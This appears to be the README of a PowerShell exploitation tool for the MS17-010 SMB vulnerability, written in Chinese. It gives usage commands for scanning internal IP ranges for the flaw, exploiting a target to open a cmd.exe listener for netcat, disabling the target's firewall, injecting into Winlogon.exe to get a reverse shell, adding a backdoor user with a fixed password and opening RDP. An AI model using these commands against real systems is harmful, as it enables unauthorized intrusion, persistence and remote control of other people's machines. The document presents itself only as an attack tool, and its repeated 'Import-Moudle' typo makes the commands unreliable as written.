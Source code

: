 原生脚本的快速使用

```
-m //加载模版
-process //指定要注入DLL的进程 默认为lsass.exe
-Port //指定攻击端口 默认445
-x //指定要攻击系统位数
-fs //批量探测内网是否存在ms17010
-target //指定扫描的IP段
```



批量监测是否包含MS17010漏洞

```
Import-Moudle .\Invoke-Ms17010.ps1
checkMS -fs 1 -target 172.16.224.0-172.16.224.255
```

![image-20220818022507867](./Readme.assets/image-20220818022507867.png)

Check目标（必须执行 如果目标为XP系统则需要将OS指定为0，如果非XP系统则将OS指定为1），如果利用成功则返回系统位数，执行结果如下图所示

```
Import-Moudle .\Invoke-Ms17010.ps1
checkMS -target 172.16.224.15 -OS 1
```

![image-20220818022852790](./Readme.assets/image-20220818022852790.png)

使用如下命令，可以在目标的666端口上面开启一个cmd.exe的监听并用NC进行连接

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64
```

![image-20220818023049851](./Readme.assets/image-20220818023049851.png)

如果对方开启了防火墙会导致我们不能直接获取shell，但是我们可以加载firewall模版来关闭目标的防火墙

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall
```

当然你可以在关闭目标防火墙之后 反弹shell

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall -process Winlogon.exe -Reshell 1
```

添加用户testoaa HjjLJjj@123

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m useradd
```

开启3389并在防火墙放通行

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m openrdp
```


